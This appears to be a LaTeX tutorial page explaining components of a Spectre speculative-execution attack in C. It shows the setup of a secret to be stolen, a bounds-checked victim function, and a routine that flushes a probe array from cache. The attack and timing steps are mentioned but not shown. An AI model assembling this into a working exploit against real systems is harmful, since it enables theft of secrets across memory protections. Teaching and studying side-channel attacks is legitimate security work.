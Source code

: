 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Setting the context}
\begin{lstlisting}[style=CStyle]
unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t temp = 0;
char* secret = "Some Secret Value";
uint8_t array[256*4096];
\end{lstlisting}
buffer is accessible using restrictedAccess()
secret is to be stolen
array is helper(side channel) to steal secret  
\subsubsection{Restricted Access}
\begin{lstlisting}[style=CStyle]
uint8_t restrictedAccess(size_t x)
{
	if (x < buffer_size) {
		return buffer[x];
	} 
	else {
		return 0;
	}
}
\end{lstlisting}
This is a simple C function which gives access to elements within buffer\_ size and restricts access to locations outside buffer size by returning 0. This is the target of our attack. The aim is to extract information outside buffer\_size using this function 
\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array. Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution}(Look at section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any DELTA can be used.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\
\end{document}
